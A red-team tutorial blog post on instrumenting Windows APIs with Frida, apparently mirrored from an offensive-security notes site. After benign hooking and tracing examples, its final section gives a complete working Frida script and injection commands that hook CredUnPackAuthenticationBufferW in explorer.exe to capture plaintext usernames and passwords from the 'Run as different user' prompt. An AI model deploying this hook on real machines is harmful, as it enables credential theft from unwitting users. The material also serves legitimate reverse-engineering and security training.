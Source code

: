 ```yaml
---
layout: post
title: "instrumenting windows apis with frida"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /instrumenting-windows-apis-with-frida/
---
```


---
layout: post
title: "instrumenting windows apis with frida"
date: 2024-06-18
categories: windows-kernel-internals
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /instrumenting-windows-apis-with-frida/
---

# Instrumenting Windows APIs with Frida

[Frida](https://frida.re) is dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers.

## Spawning New Process with Frida

We can ask frida to spawn a new process for us to instrument:

```
frida c:\windows\system32\notepad.exe
```

![](<../../.gitbook/assets/image (742).png>)

## Attaching Frida to Existing Process

We can ask frida to attach to an existing process:

```
frida -p 10964
```

![](<../../.gitbook/assets/image (743).png>)

## Hooking a Function

The below code in `hooking.js` will find address of the Windows API `WriteFile` (lives in kernel32.dll/kernelbase.dll) and hexdump the contents of the 1st argument passed to it:

{% code title="hooking.js" %}
```javascript
var writeFile = Module.getExportByName(null, "WriteFile");

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
        console.log("Buffer dump:\n" + hexdump(args[1]));
        // console.log("\nBuffer via Cstring:\n" + Memory.readCString(args[1]));
        // console.log("\nBuffer via utf8String:\n" + Memory.readUtf8String(args[1]));
    }
});
```
{% endcode %}

Let's spawn a new `notepad.exe` through Frida and supply it with the above `hooking.js` code, so that we can start instrumenting the `WriteFile` API and inspect the contents of the buffer that is being written to disk:

```
frida C:\windows\system32\notepad.exe -l .\hooking.js
```

![](../../.gitbook/assets/frida-instrumenting-api.gif)

Notice that we can update the `hooking.js` code and the instrumentation happens instantly - it does not require us to re-spawn the notepad or re-attaching Frida to it. In the above GIF, this can be seen at the end when we request the console to spit out the `process.id` (the frida is attached to) and the notepad process ID gets printed out to the screen instantly.

## Frida-Trace

If we want to see if certain API calls are invoked by some specific process, say `WriteFile`, we can use `frida-trace` tool like so:

```
frida-trace -i "WriteFile" C:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/frida-trace.gif)

## Real Life Example - Intercepting Credentials

Below shows how we can combine the above knowledge for something a bit more interesting.

Can we intercept the plaintext credentials from the credentials prompt the user gets when they want to execute a program as another user?

![Credentials prompt presented for "Run as different user"](../../.gitbook/assets/credential-popup.gif)

The answer is of course yes, so let's see how this could be done using Frida tools.

Let's use `frida-trace` to see if explorer.exe ever calls any functions named `*Cred*` when we invoke the credentials popup:

```
frida-trace -i "*Cred*" -p (ps explorer).id
```

Below, we can see that indeed, there is a call to `CredUIPromptForWindowsCredentialsW` made when the prompt is first invoked:

![](../../.gitbook/assets/credential-popup-trace.gif)

Entering some fake credentials shows the following interesting `Cred*` API calls are made (in red):

![](<../../.gitbook/assets/image (744).png>)

...and the [`CredUnPackAuthenticationBufferW`](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credunpackauthenticationbufferw) (in lime) is of special interest, because per MSDN:

> &#x20;The **CredUnPackAuthenticationBuffer** function converts an authentication buffer returned by a call to the [CredUIPromptForWindowsCredentials](https://docs.microsoft.com/en-us/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa) function into a string user name and password.

We can now instrument `CredUnPackAuthenticationBufferW` in a frida javascript like so:

{% code title="Credentials.js" %}
```javascript
var username;
var password;
var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")

Interceptor.attach(CredUnPackAuthenticationBufferW, {
    onEnter: function (args) 
    {
        // Credentials here are still encrypted
        /*
            CREDUIAPI BOOL CredUnPackAuthenticationBufferW(
                0 DWORD  dwFlags,
                1 PVOID  pAuthBuffer,
                2 DWORD  cbAuthBuffer,
                3 LPWSTR pszUserName,
                4 DWORD  *pcchMaxUserName,
                5 LPWSTR pszDomainName,
                6 DWORD  *pcchMaxDomainName,
                7 LPWSTR pszPassword,
                8 DWORD  *pcchMaxPassword
            );        
        */
        username = args[3];
        password = args[7];
    },
    onLeave: function (result)
    {
        // Credentials are now decrypted
        var user = username.readUtf16String()
        var pass = password.readUtf16String()

        if (user && pass)
        {
            console.log("\n+ Intercepted Credentials\n" + user + ":" + pass)
        }
    }
});
```
{% endcode %}

We can now hook the explorer.exe by providing frida with our instrumentation script like so:

```
frida -p (ps explorer).id -l C:\labs\frida\hello-world\credentials.js
```

![](<../../.gitbook/assets/image (745).png>)

With `CredUnPackAuthenticationBufferW ` instrumented, entering credentials in the prompt launched by explorer.exe, gives us the expected result - the credentials are seen in plaintext:

![](../../.gitbook/assets/credential-popup-capture-credentials.gif)

## Resources

{% embed url="https://frida.re/docs/javascript-api/#memory" %}
@spotheplanet
